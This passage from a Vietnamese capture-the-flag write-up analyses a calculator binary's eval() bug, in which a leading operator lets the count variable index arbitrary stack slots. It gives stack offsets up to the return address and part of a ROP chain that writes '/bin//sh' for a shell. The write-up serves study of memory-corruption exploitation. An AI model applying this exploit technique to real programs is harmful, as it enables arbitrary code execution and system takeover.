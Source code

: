 ```
    }
  }
  else if ( a2 == 42 )
  {
    count[*count - 1] *= count[*count];
  }
  result = count;
  --*count;
  return result;
  ```
Lấy ví dụ phép toán hiện tại là ‘+’ thì hàm eval() sẽ tính count[*count-1] += count[*count]. Phép tính này thực chất tương đương với: number[count-2] += number[count-1]. Sau khi tính xong kết quả, giảm biến count đi 1 đơn vị. Như vậy kết quả phép tính đến thời điểm hiện tại (sau khi đã giảm biến đếm count) được lưu vào number[count-1].
Sau đó in ra kết quả ngoài màn hình.

Nhưng có 1 lỗi mà chưa được giải thích! Đó là tại sao khi chúng ta +10 lại ra 0 ???
Flow chương trình khi input là “+10”:

  + Trong hàm parse_expr(), khi duyệt đến kí tự đầu tiên ‘+’, lúc này i = 0, v2 = 0, s1 = NULL, v9 = 0 nên không có số nào được thêm vào mảng number[]. Vì chưa có phép toán nào trong chuỗi s nên phép toán ‘+’ sẽ được add vào.
  + Chương trình duyệt đến kí tự ‘1’ và ‘0’, lúc này i = 2, v2 = 2, s1 = ’10’, v9 = 10. Không còn kí tự nào nữa nên lệnh eval() trong nhánh default được thực hiện
  + count = 1, number[] = [10]. Do đó phép tính trên thực chất tương đương với: count = count + number[count-1] = 1 + 10 = 11. Sau đó có lệnh count–- nên count = 10. Hàm parse_expr() kết thúc, chương trình in ra giá trị tại number[count-1] = number[9] = count[10] = 0 vì mảng number đã được khởi tạo tất cả giá trị = 0 trước đó.

Vậy chúng ta có thể khai thác lỗi sau bằng cách biết được offset của vị trí ô nhớ so với biến count và giá trị muốn thay đổi .
Dùng gdb để kiếm tra stack và chúng ta được bảng stack sau : 
```
|offset| address | value |
|   1  |ebp-0x5A0| count |
|   1  |ebp-0x59C| number|
|      |         |       |
|      |         |       |
|      |         |       |
|  101 |ebp-0x40C| input |
|      |         |       |
|      |         |       |
|      |         |       |
|      |         |       |
|  357 |ebp-0xC  | canary|
|      |         |       |
|      |         |       |
|  360 |   ebp   |pre_ebp|
|  361 | ebp+0x4 |return |
```
Để làm được tới đây là xem như chúng ta đã hoàn thành đến 70% bài này rồi!
Sau đó chỉ việc kiếm đoạn ROPgadget và thực thi nó thôi!
Hiện tại thì mình tìm được 2 cái ROP :
```
	p += pack('<I', 0x080701aa) # pop edx ; ret
	p += pack('<I', 0x080ec060) # @ .data
	p += pack('<I', 0x0805c34b) # pop eax ; ret
	p += '/bin'
	p += pack('<I', 0x0809b30d) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x080701aa) # pop edx ; ret
	p += pack('<I', 0x080ec064) # @ .data + 4
	p += pack('<I', 0x0805c34b) # pop eax ; ret
	p += '//sh'
	p += pack('<I', 0x0809b30d) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x080701aa) # pop edx ; ret
```